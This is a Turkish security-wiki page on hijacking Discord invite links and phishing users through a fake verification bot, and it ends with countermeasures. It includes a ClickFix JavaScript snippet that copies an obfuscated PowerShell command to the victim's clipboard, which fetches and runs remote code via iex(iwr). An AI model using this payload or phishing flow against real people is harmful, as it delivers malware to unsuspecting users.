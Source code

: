 # Discord Davet Hijacking

{{#include ../../banners/hacktricks-training.md}}

Discord’un davet sistemi açığı, tehdit aktörlerinin süresi dolmuş veya silinmiş davet kodlarını (geçici, kalıcı veya özel vanity) yeni vanity bağlantıları olarak herhangi bir Seviye 3 artırılmış sunucuda talep etmesine olanak tanır. Tüm kodları küçük harfe normalize ederek, saldırganlar bilinen davet kodlarını önceden kaydedebilir ve orijinal bağlantı süresi dolduğunda veya kaynak sunucu artırmasını kaybettiğinde trafiği sessizce ele geçirebilirler.

## Davet Türleri ve Ele Geçirme Riski

| Davet Türü           | Ele Geçirilebilir mi? | Koşul / Yorumlar                                                                                       |
|-----------------------|-----------------------|--------------------------------------------------------------------------------------------------------|
| Geçici Davet Bağlantısı | ✅                    | Süresi dolduktan sonra, kod mevcut hale gelir ve artırılmış bir sunucu tarafından vanity URL olarak yeniden kaydedilebilir. |
| Kalıcı Davet Bağlantısı | ⚠️                    | Silinirse ve yalnızca küçük harfler ve rakamlardan oluşuyorsa, kod tekrar mevcut hale gelebilir.        |
| Özel Vanity Bağlantısı  | ✅                    | Orijinal sunucu Seviye 3 Boost'unu kaybederse, vanity daveti yeni kayıt için mevcut hale gelir.      |

## Sömürü Adımları

1. Keşif
- `discord.gg/{code}` veya `discord.com/invite/{code}` desenine uyan davet bağlantılarını izlemek için kamu kaynaklarını (forumlar, sosyal medya, Telegram kanalları) takip edin.
- İlginç davet kodlarını toplayın (geçici veya vanity).
2. Ön Kayıt
- Seviye 3 Boost ayrıcalıklarına sahip bir Discord sunucusu oluşturun veya mevcut bir sunucuyu kullanın.
- **Sunucu Ayarları → Vanity URL** kısmında hedef davet kodunu atamayı deneyin. Kabul edilirse, kod kötü niyetli sunucu tarafından rezerve edilir.
3. Ele Geçirme Aktivasyonu
- Geçici davetler için, orijinal davetin süresi dolana kadar bekleyin (veya kaynağı kontrol ediyorsanız manuel olarak silin).
- Büyük harf içeren kodlar için, küçük harfli versiyonu hemen talep edilebilir, ancak yönlendirme yalnızca süresi dolduktan sonra aktif hale gelir.
4. Sessiz Yönlendirme
- Eski bağlantıyı ziyaret eden kullanıcılar, ele geçirme aktif hale geldiğinde saldırgan kontrolündeki sunucuya sorunsuz bir şekilde yönlendirilir.

## Discord Sunucusu Üzerinden Phishing Akışı

1. Sunucu kanallarını kısıtlayarak yalnızca bir **#verify** kanalının görünür olmasını sağlayın.
2. Yeni gelenleri OAuth2 ile doğrulamaya teşvik etmek için bir bot (örneğin, **Safeguard#0786**) dağıtın.
3. Bot, kullanıcıları bir phishing sitesine (örneğin, `captchaguard.me`) yönlendirir ve bunu bir CAPTCHA veya doğrulama adımı olarak gösterir.
4. **ClickFix** UX hilesini uygulayın:
- Bozuk bir CAPTCHA mesajı gösterin.
- Kullanıcıları **Win+R** diyalogunu açmaya, önceden yüklenmiş bir PowerShell komutunu yapıştırmaya ve Enter'a basmaya yönlendirin.

### ClickFix Panoya Enjeksiyon Örneği
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Bu yaklaşım, doğrudan dosya indirmelerini önler ve kullanıcı şüphesini azaltmak için tanıdık UI öğelerini kullanır.

## Önlemler

- En az bir büyük harf veya alfasayısal olmayan karakter içeren kalıcı davet bağlantıları kullanın (asla süresi dolmaz, yeniden kullanılmaz).
- Davet kodlarını düzenli olarak değiştirin ve eski bağlantıları iptal edin.
- Discord sunucu destek durumunu ve vanity URL taleplerini izleyin.
- Kullanıcıları sunucu kimliğini doğrulamaya ve panoya kopyalanmış komutları çalıştırmaktan kaçınmaya eğitin.

## Referanslar

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}
